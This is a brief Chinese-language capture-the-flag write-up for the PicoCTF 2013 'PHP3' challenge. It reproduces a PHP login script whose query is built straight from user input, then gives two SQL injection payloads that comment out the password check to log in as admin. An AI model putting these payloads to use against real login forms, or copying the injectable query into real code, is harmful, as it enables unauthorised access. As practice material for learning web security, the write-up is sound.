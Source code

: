 ## PicoCTF 2013:PHP3

**分类：**脚本开发

## write-up

根据提示，我们可以访问`code.txt`该文件

```php
<?php
        if($_POST['user'] && $_POST['pass']) {
            mysql_connect("localhost", "root", "ctfhub") or die("Could not connect:" . mysql_error());
			mysql_select_db("ctfhub");
            $user = $_POST['user'];
            $pass = md5($_POST['pass']);
			$sql="select user from ctfhub where (user='$user') and (pw='$pass')";
			$result = mysql_query($sql);
            $query = @mysql_fetch_array($result);

            if($query['user']=="admin") {
                echo "<p>Logged in! Key:XXXXXXXX";
            }

            if($query['user']!="admin") {
                echo("<p>You are not admin!</p>");
            }
        }
    ?>
```

对于这道题目我们可以简单地修改将user参数就可以完成。这道题目以用户名和密码作为通行证。我们通过注释的方式将sql语句的语义改变就可以完成挑战。

`payload1:user=') UNION select user from ctf where (user='admin') #&pass=11`

`payload2:user=admin')#&pass=1`



